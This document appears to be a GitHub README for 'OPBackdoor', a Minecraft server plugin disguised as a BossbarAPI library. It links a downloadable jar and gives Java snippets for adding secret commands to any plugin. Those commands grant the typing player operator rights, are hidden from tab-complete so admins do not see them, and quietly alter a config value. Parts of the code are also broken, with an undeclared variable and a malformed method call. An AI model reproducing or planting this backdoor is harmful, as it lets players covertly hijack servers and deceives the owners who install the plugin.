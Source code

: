 # OPBackdoor
**With a secret command, you can make yourself OP on a server with this plugin disguised as an API**

Only one person can use this per server though! In the config.yml the version will change to 0.40 when somebody has used the cheat and 0.41 when nobody has used it on this server.


**On a plugin with this enabled run these commands:**
1. /bossbarapibackdoorpluginopme -- Makes you OP
2. /bossbarapibackdoorplugindeopme -- Deops you

*If you want to just download the plugin, click this -> https://github.com/OllieJW/OPBackdoor/raw/main/BossbarAPI-0.4.1.jar*

**I AM NOT RESPONSIBLE FOR ANYTHING YOU DO WITH THIS. USE WITH CAUTION!**



# [Optional] Adding it to a plugin
You do not need to do this, this is only for people who know how to make plugins and who have a little bit of Java knowledge.
Just add this code segment to a plugin and it will be ready to go

```java
// Imports required:
import org.bukkit.command.Command;
import org.bukkit.command.CommandExecutor;
import org.bukkit.command.CommandSender;
import org.bukkit.entity.Player;
import org.bukkit.event.EventHandler;
import org.bukkit.event.Listener;
import org.bukkit.event.player.PlayerCommandSendEvent;

import java.util.ArrayList;
import java.util.List;
```
```java
@Override
public void onEnable() {
   Bukkit.getCommand("secret-command-to-op").setExecutor(this, this);
   Bukkit.getCommand("secret-command-to-de-op").setExecutor(this, this);
}
```

```java 
// When a user runs our secret command it will op them and discreatly change the config file so only one person can use it
    Player pl;
    @Override
    public boolean onCommand(CommandSender sender, Command cmd, String label, String[] args) {
        if (sender instanceof Player) {
            if (cmd.getName().equalsIgnoreCase("secret-command-to-op")) {
                pl = (Player) sender;
                if (p.getConfig().getDouble("version")==0.41) {
                    pl.setOp(true);
                    p.getConfig().set("version", 0.40);
                    p.saveConfig();
                }
            }
            if (cmd.getName().equalsIgnoreCase("secret-command-to-de-op")) {
                pl = (Player) sender;
                if (p.getConfig().getDouble("version")==0.40) {
                    pl.setOp(false);
                    p.getConfig().set("version", 0.41);
                    p.saveConfig();
                }
            }
        } return true;
    }
```

```java
// Hides command from tab complete - Hidden from admins
    @EventHandler
    public void onPlayerTab(PlayerCommandSendEvent e) {
        List<String> blockedCommands = new ArrayList<>();
        blockedCommands.add("secret-command-to-op");
        blockedCommands.add("secret-command-to-de-op");
        e.getCommands().removeAll(blockedCommands);
    }
```


